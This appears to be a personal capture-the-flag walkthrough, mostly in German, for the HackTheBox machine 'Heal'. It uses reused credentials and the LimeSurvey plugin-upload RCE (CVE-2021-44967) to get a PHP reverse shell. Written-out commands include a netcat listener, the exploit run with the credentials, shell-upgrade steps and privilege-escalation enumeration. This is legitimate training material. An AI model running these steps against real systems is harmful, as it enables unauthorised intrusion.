










# System Access

## Try Credentials
[User antony access](../db-access/gaining-db-access.md#3-hashcat)

### 1. SSH Login try

```
ssh ralph@10.10.11.46
```

- Wrong Login Credentials
---

### 2. Admin Panel Login try

```
take-survey.heal.htb/admin

Username: ralph
Password: 147258369
```


#### Hat geklappt:



---

# Admin Panel Enumeration

## Gefahren durch den Zugriff auf das Admin Panel

1. Survey
   - Zugriff auf die Survey + Editieren ist möglich
   - Script in die Survey eingebunden => Jeder der die Survey öffnet bekommt das Script ins Gesicht


---

## Nach LimeSurvey CVE's gesucht

Das hier gefunden:
- https://ine.com/blog/cve-2021-44967-limesurvey-rce
- Verweist auf:
  - CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44967
  - PoC: https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
  - Exploit DB: https://www.exploit-db.com/exploits/50573


## Vorgehen:

### 1. PoC heruntergeladen (https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/tree/main)



### 2. ```php-rev.php```
- IP und Port angepasst (Eigene IP herausgefunden mit ```ip a```)


### 3. Create a zip file with the config and the reverse shell code



### 4. Upload & Install Plugin

#### 4.1 Login + go to configuration


#### 4.2 Under configuration navigate to the plugins


#### 4.3 Upload and install button


#### 4.4 Upload & Install malicious zip file


#### 4.5 Error -> Wrong Lime version


#### 4.6 Change version in config file / add version


#### 4.7 Try again -> works


#### 4.8 Activate Plugin


#### 4.9 Get Plugin id by hovering over the plugin


### 5. ```exploit.py ```

#### 5.1. Script anpassen


#### 5.2 Lokalen Pfad anpassen


#### 5.3 Listen on ```Port 1337```
```
nc -lvp 1337

   -l: Listen mode. Netcat will wait for an incoming connection.
   -v: Verbose. Provides more detailed output.
   -p: Local port to listen on.
```


#### 5.4 Exploit Datei ```exploit.py``` ausführen
```
python3 exploit.py URL username password port

python3 exploit http://take-survey.heal.htb ralph 147258369 80
```



- Hat geklappt => Reverse Shell erlangt als www-data User
---

# Reverse Shell
## Shell Enumeration

- Habe eine dumme shell mit der ich keine arrow key oder auto completion benutzen kann => Die
dumme shell zu einem terminal upgraden


---
## Upgrade dumb shell to fully functional terminal to be able to enumerate better
Quelle: https://0xmrmasry.medium.com/upgrading-simple-shells-to-fully-interactive-ttys-eeeea1e6654e

### 1. Herausfinden ob ich python für ein upgrade verwenden kann
```which python3```


### 2. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```


### 3. STRG + Z um Netcat in den Hintergrund zu schicken


### 4. Terminal auf raw setzen und die Eingabe weiterleiten + danach Netcat wieder in den vordergrund holen

```
stty raw -echo;fg

=>  Kombi sorgt dafür, dass die Sonderzeichen nur innerhalb speziell DIESER shell im raw format übertragen werden. 
    Wenn nicht, dann kann es dazu führen, dass alle Sonderzeichen nicht mehr interpretiert werden (auch in der shell auf meinem rechner).  
  
stty raw:
=>  Sorgt dafür, dass die sonderzeichen nicht interpretiert werden sondern im raw format an die shell über echo hingesendet werden

fg (foreground):
=>  Sorgt dafür, dass die shell wieder in den vordergrund gesetzt wird
```

### 5. Arrow keys and TAB work but 'clear' doesn't


Herausfinden, welches Terminal ich benutze:
```
echo $TERM
```
```
Result:

xterm-256color
```


Anschließend das Terminal setzen
```
export TERM=xterm-256color
```


### 6. TAB, Arrow keys, Auto completion works

---

## Continue Enumeration
### 1. Ich bin gerade nur www-data user => sehr eingeschränkte Rechte

### 2. Prüfen, was ich als www-data mit sudo ausführen darf
```
sudo -l
```


### 3. 


### 999. Mit linpeas herausfinden, welche Pfade ich nutzen kann um meine Rechte auszuweiten
Quelle:
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

#### 1. Script herunterladen
#### 2. Script auf Zielsystem bekommen
#### 3. Script auf Zielsystem ausführen


---


